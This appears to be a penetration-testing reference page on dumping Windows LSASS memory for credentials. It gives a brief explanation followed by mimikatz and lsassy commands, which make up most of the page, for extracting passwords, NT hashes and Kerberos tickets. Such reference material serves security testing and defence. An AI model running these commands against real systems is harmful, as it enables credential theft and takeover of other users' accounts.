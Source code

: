 ```yaml
---
label: LSASS Memory
---
```


# Credentials dump LSASS memory

> **Requirements:**
>
> - You have to be a local administrator on the machine (or SYSTEM).

LSASS dump can reveal credentials of users currently or recently logged into the system. The most common cached credentials will be NT hashes and Kerberos TGTs.

Windows:

```powershell
.\mimikatz.exe
> privilege::debug
> sekurlsa::logonpasswords
```

Linux:

```bash
# Using password
lsassy -u $user -p $password -d $domain $host

# Using NT hash
lsassy -u $user -H $nt_hash -d $domain $host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
lsassy -k $host
```